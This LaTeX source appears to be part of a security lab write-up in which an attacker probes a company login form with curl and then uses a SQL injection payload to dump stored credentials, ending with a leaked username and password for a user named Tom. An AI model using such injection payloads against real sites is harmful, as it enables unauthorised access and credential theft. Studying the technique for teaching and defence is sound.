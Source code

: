 \documentclass[a4paper, 12pt, oneside]{extbook}
\begin{document}
In this case, the attacker Bob uses a mix of remote exploits to gain root access on the Employee PC.

\section{Sql Injection}
The attacker starts from the company web service by filling the login form with different combinations:

\begin{lstlisting}[style=DOS]
$ curl -X POST -d 'username=a&password=b' 193.20.3.1:8080
\end{lstlisting}
In this case, the website uses an url-encoded form, so the attacker can send the data as an url-encoded string. This one returns "Error value(s) missing".
\newline The attacker tries to tamper the form with another combination:
\begin{lstlisting}[style=DOS]
$ curl -X POST -d 'username=&password=b' 193.20.3.1:8080
\end{lstlisting}
which returns:
\begin{lstlisting}[style=DOS]
$ {"success":false,"response":"No user found","result":[]}
\end{lstlisting}
Lastly, the attacker can try to insert a payload with a MySQL Injection, that uses OR and the commenting syntax:
\begin{lstlisting}[style=DOS]
$ curl -X POST -d 'username=" OR 1<2; -- &password=b' \
$ 193.20.3.1:8080
\end{lstlisting}
which returns a list of credentials:
\begin{center}
  \includegraphics[scale=0.5]{../Image/webserver_sql.PNG}
\end{center}
including an entry related to the user Tom:
\begin{lstlisting}[style=DOS]
  username = tcasaccio1
  password = YLN1NrMdGN
\end{lstlisting}
\end{document}
